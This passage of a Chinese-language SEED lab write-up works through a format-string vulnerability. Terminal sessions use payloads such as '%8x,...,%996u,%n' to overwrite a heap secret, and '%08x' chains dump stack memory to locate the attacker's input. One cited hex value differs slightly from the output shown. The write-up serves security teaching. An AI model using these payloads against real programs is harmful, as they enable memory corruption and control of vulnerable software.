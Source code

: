 ```

```
由结果可以推断:  
0x1d = 29,  
(8+1)*3+(1+1) = 27 + 2 = 29.  
修改secret[1]的值为29.完成任务2.  

4. 试一试控制输出宽度?
运行获得如下结果:
```
[04/10/2018 23:06] seed@ubuntu:~/Seed$ ./a.out 
The variable secret’s address is 0xbffff2e8 (on stack)
The variable secret’s value is 0x 804b008 (on heap)
secret[0]’s address is 0x 804b008 (on heap)
secret[1]’s address is 0x 804b00c (on heap)
Please enter a decimal integer
134524940
Please enter a string
%8x,%8x,%8x,%996u,%n
bffff2ec,       0,b7ff3fec,                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          3221222292,
The original secrets: 0x44 -- 0x55
The new secrets: 0x44 -- 0x400

```
由结果可以推断:  
0x400 = 1024,  
(8+1)*3 + 996 = 1024.  
修改secret[1]的值为指定的值1024.  

## 升级难度
如果第一个scanf语句不存在,如何实现上面的3个任务?

1. 试一试多打印几个`%08x` ?
```
[04/10/2018 23:48] seed@ubuntu:~/Seed$ ./a.out 
The variable secret’s address is 0xbffff2e8 (on stack)
The variable secret’s value is 0x 804b008 (on heap)
secret[0]’s address is 0x 804b008 (on heap)
secret[1]’s address is 0x 804b00c (on heap)
Please enter a string
%08x,%08x,%08x,%08x,%08x,%08x,%08x,%08x,%08x,%08x,
bffff2ec,00000000,b7ff3fec,bffff394,00000000,0804b008,78383025,3830252c,30252c78,252c7838,
The original secrets: 0x44 -- 0x55
The new secrets: 0x44 -- 0x55

```
由上面的结果可知:
`0804b008`是secret的值,之后的`78383825`是`%08x`的ascii码.  
secret地址之后是我们的user_input的字符串的ascii码对应的十六进制.  
根据这一信息,我们可以将目标地址作为user_input的一部分放入栈空间中.  

